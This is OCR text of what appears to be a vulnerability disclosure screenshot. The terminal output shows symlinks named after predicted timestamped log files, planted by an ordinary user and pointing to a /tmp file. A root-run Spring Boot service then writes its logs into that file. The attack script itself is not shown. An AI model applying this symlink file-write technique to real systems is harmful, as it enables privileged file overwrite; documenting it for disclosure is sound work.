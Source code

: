 ```
lrwxrwxrwx 1 johnsmith johnsmith     30 Jul 12 12:12 1594555982.log -> /tmp/arbitrary_file_write.test
lrwxrwxrwx 1 johnsmith johnsmith     30 Jul 12 12:12 1594555983.log -> /tmp/arbitrary_file_write.test
lrwxrwxrwx 1 johnsmith johnsmith     30 Jul 12 12:12 1594555984.log -> /tmp/arbitrary_file_write.test
lrwxrwxrwx 1 johnsmith johnsmith     30 Jul 12 12:12 1594555985.log -> /tmp/arbitrary_file_write.test
lrwxrwxrwx 1 johnsmith johnsmith     30 Jul 12 12:12 1594555986.log -> /tmp/arbitrary_file_write.test
lrwxrwxrwx 1 johnsmith johnsmith     30 Jul 12 12:12 1594555987.log -> /tmp/arbitrary_file_write.test
lrwxrwxrwx 1 johnsmith johnsmith     30 Jul 12 12:12 1594555988.log -> /tmp/arbitrary_file_write.test
lrwxrwxrwx 1 johnsmith johnsmith     30 Jul 12 12:12 1594555989.log -> /tmp/arbitrary_file_write.test
lrwxrwxrwx 1 johnsmith johnsmith     30 Jul 12 12:12 1594555990.log -> /tmp/arbitrary_file_write.test
lrwxrwxrwx 1 johnsmith johnsmith     30 Jul 12 12:12 1594555991.log -> /tmp/arbitrary_file_write.test
lrwxrwxrwx 1 johnsmith johnsmith     30 Jul 12 12:12 1594555992.log -> /tmp/arbitrary_file_write.test
lrwxrwxrwx 1 johnsmith johnsmith     30 Jul 12 12:12 1594555993.log -> /tmp/arbitrary_file_write.test
-rw-rw-r-- 1 johnsmith johnsmith    390 Jul 12 12:10 arbitrary_file_write.sh
```

```
ls -la /tmp/arbit*
```

```
-rw-r--r-- 1 root root 5530 Jul 12 12:13 /tmp/arbitrary_file_write.test
```

```
head /tmp/arbit*
```

```
2020-07-12 12:12:49.005  INFO 670 --- [           main] trationDelegate$BeanPostProcessorChecker : Bean 'org.springframework.cloud.autoconfigure.ConfigurationPropertiesRebinderAutoConfiguration' of type [
org.springframework.cloud.autoconfigure.ConfigurationPropertiesRebinderAutoConfiguration$$EnhancerBySpringCGLIB$$7af57240] is not eligible for getting processed by all BeanPostProcessors (for example: not
 eligible for auto-proxying)

  .   ____          _            __ _ _
 /\\ / ___'_ __ _ _(_)_ __  __ _ \ \ \ \
( ( )\___ | '_ | '_| | '_ \/ _` | \ \ \ \
 \\/  ___)| |_)| | | | | || (_| |  ) ) ) )
  '  |____| .__|_| |_|_| |_\__, | / / / /
 =========|_|==============|___/=/_/_/_/
 :: Spring Boot ::        (v2.3.1.RELEASE)

```
